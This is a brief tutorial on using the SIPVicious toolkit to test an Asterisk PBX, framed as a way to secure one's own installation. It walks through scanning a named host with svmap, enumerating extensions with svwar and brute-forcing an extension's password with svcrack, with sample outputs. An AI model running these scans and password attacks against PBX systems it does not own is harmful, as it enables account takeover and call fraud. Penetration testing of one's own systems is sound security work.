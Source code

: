 # Sipvicious

## Introduction
Sipvicious is used to scan for a pbx and to attack it.
We will go through the steps of installing sipvicious on Ubuntu and using it.
The purpose of this is to secure your asterisk installation.

## Install Sipvicious on Ubuntu
```bash
sudo apt-get install sipvicious
```

## Usage
We will go through the steps of finding and penetration testing our sip system.

### Scan for SIP system

```bash
svmap pbx.megaw.co.za
```

The output will be as follows:
```
+----------------------+---------------------+-------------+
| SIP Device           | User Agent          | Fingerprint |
+======================+=====================+=============+
| 102.145.163.239:5060 | Asterisk PBX 20.6.0 | disabled    |
+----------------------+---------------------+-------------+
```

### Identify Extensions
```bash
svwar 102.145.163.239
```
The output will be as follows:
```
+-----------+----------------+
| Extension | Authentication |
------------------------------
| 102       | reqauth        |
| 100       | reqauth        |
| 101       | noauth         |
+-----------+----------------+
```

### Brute force the password of an extension
!!! note
    You will need a passwords file and rename it to dictionary.txt
    
```bash
svcrack 102.145.163.239 -u 100 -d dictionary.txt
```
The output will be as follows:
```
+-----------+----------+
| Extension | Password |
------------------------
| 100       | 123      |
+-----------+----------+
```
